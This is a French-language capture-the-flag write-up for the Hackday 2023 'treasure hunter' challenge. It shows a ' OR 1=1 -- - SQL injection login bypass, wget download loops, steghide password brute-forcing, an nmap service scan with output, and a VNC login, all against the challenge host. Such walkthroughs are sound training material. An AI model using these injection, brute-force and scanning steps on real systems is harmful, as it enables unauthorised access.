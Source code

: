 ```yaml
---
layout: post
title: Hackday_2023 - A Treasure Hunt
date: 2023-03-21 21:15 +0100
categories: web
difficulty: easy
---
```


### treasure hunter

J'effectue en premier 

test d'injection sur le formulaire avec la payload
```bash
' OR 1=1 -- -
```
Je suis redirigé vers une page slider.php qui contient des images qui défilent. 
Je télécharge l'ensemble des images avec un oneliner
```bash
for ((i=1 ; i < 11; i++)); do wget https://7c21111516t.hackday.fr/images/slides/00$i.jpg done

for ((i=11 ; i < 31; i++)); do wget https://7c21111516t.hackday.fr/images/slides/0$i.jpg done
```
après avoir fouillé robot.txt sur le site, je download la liste de password qui se cache sur le site : 
```bash
wget https://7c21111516t.hackday.fr/passwordSuggestionList.txt 
```
Avec cette liste je bruteforce les fichiers jpg avec steghide. 
```bash
for file in ~/ctf/*.jpg ; do steghide extract -sf $file -p family done
```
J'extrais un fichier.txt qui contient le message suivant :
```text
Hi swashbuckler, congratulations for coming this far ! 
You can have access to all my wealth in my bank account if you get connected 
to the server. The password is the first 8 letters of the 
name of the historical site where we buried the treasure.
Here are the GPS coordinates of the site.
- - - - - - - - - - - - - - - - - - -
-40.33892996,176.58696554       |
- - - - - - - - - - - - - - - - - - -
```

Avec les coordonnées GPS on tombe sur la place avec le nom le plus long au monde. Je récupère les 8 premiers caractères du nom et me retrouve avec *taumataw*.<br>

Je continue ma fouille sur le site et fais un nmap :

```bash
 ─$ nmap -T4 -sV 7c21111516t.hackday.fr
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-18 08:08 EDT
Nmap scan report for 7c21111516t.hackday.fr (193.70.90.113)
Host is up (0.030s latency).
rDNS record for 193.70.90.113: vps-130fe7f4.vps.ovh.net
Not shown: 996 filtered tcp ports (no-response)
PORT      STATE SERVICE  VERSION
80/tcp    open  ssl/http Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
443/tcp   open  ssl/http Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
5901/tcp  open  vnc      VNC (protocol 3.8)
12345/tcp open  netbus?
nmap -T4 -sV 7c21111516t.hackday.fr
```
Je découvre alors le port VNC ouvert et me connecte 
```
vncviewer 7c21111516t.hackday.fr::5901
```
Le mdp Taumataw me permet de me connecter à une machine distante et d'y trouver le flag.

<img src="/src/img/vnc_flag.png">



